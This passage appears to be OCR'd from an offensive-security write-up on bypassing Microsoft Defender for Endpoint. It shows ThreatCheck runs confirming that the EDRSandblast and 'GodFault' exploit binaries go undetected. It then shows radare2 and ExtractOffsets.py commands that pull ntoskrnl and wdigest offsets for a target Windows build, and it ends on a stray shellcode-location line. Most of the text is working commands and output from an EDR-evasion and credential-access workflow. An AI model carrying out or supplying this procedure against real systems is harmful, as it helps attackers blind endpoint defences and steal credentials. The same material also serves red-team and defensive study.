 ```
D:\>.\ThreatCheck.exe -f D:\Tools\EDRSandblast.exe -e amsi
[+] Target file size: 328192 bytes
[+] Analyzing...
[!] Identified end of bad bytes at offset 0x501FD
00000000   00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00   ················
00000010   00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00   ················
00000020   00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00   ················
00000030   00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00   ················
00000040   00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00   ················
00000050   00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00   ················
00000060   00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00   ················
00000070   00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00   ················
00000080   00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00   ················
00000090   00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00   ················
000000A0   00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00   ················
000000B0   00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00   ················
000000C0   00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00   ················
000000D0   00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00   ················
000000E0   00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00   ················
000000F0   00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00   ················
```

Analysing the God Fault exploit we find it is undetected:

```
PS D:\> .\ThreatCheck.exe -f D:\Tools\GodFault.exe
[+] No threat found!
```

Now on a Ubuntu Machine / WSL use ExtractOffsets.py to get offsets for the target ntoskrnl / wdigest binary versions. To do so run `ver / winver` to retrieve the OS build version on your target and then download appropriate ntoskrnl / wdigest specific versions from: https://winbindex.m417z.com/ to extract offsets as follows.

```
m3rcer@GHOUL:/mnt/d/Work/BypassMDE/Tools/EDRSandblast-GodFault-main/Offsets$ sudo dpkg -i radare2_5.8.8_amd64.deb
Selecting previously unselected package radare2.
(Reading database ... 183535 files and directories currently installed.)
Preparing to unpack radare2_5.8.8_amd64.deb ...
Unpacking radare2 (5.8.8) ...
Setting up radare2 (5.8.8) ...
Processing triggers for man-db (2.10.2-1) ...

m3rcer@GHOUL:/mnt/d/Work/BypassMDE/Tools/EDRSandblast-GodFault-main/Offsets$ python3 ExtractOffsets.py -i ntoskrnl.exe ntoskrnl
[*] Processing ntoskrnl version ntoskrnl_22621-2134.exe (file: ./ntoskrnl.exe)
[+] Finished processing of ntoskrnl ./ntoskrnl.exe!

m3rcer@GHOUL:/mnt/d/Work/BypassMDE/Tools/EDRSandblast-GodFault-main/Offsets$ python3 ExtractOffsets.py -i wdigest.exe wdigest
[*] Processing ntoskrnl version wdigest_22621-2134.exe (file: ./wdigest.exe)
[+] Finished processing of wdigest ./wdigest.exe!
```


[+]: Shellcode located at c7160